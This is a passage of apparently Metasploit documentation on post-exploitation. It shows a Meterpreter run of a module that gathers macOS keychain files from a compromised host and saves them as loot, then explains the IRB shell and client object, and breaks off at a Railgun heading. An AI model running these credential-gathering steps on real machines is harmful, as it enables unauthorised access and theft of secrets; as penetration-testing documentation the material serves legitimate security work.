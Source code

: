 ```
meterpreter > run post/osx/gather/enum_keychain

[*] The following keychains for root were found:
    "/Users/sinn3r/Library/Keychains/login.keychain"
    "/Library/Keychains/System.keychain"
[+] 192.168.1.209:58023 - Keychain information saved in /Users/sinn3r/.msf4/loot/20160705211412_http_192.168.1.209_macosx.keychain._271980.txt
meterpreter >
```

## Using the Post Exploitation API in IRB

To enter IRB, do the following at the Meterpreter prompt:

```
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client

>>
```

**The client object**

The client object in Meterpreter allows you to control or retrieve information about the host. For
example, this allows you to get the current privilege our payload is running as:

```
>> client.sys.config.getuid
=> "root"
```

To explore the client object, there are a few tricks. For example, you can use the #inspect method
to inspect it:

```
>> client.inspect
```

You can also use the #methods method to see what methods you can use:

```
>> client.methods
```

To review the source of the method, you can use the #source_location method. For example, say we
want to see the source code for the #getuid method:

```
>> client.sys.config.method(:getuid).source_location
=> ["/Users/sinn3r/rapid7/msf/lib/rex/post/meterpreter/extensions/stdapi/sys/config.rb", 32]
```

The first element of the array is the location of the file. The second is the line number of
the method.

**Railgun**
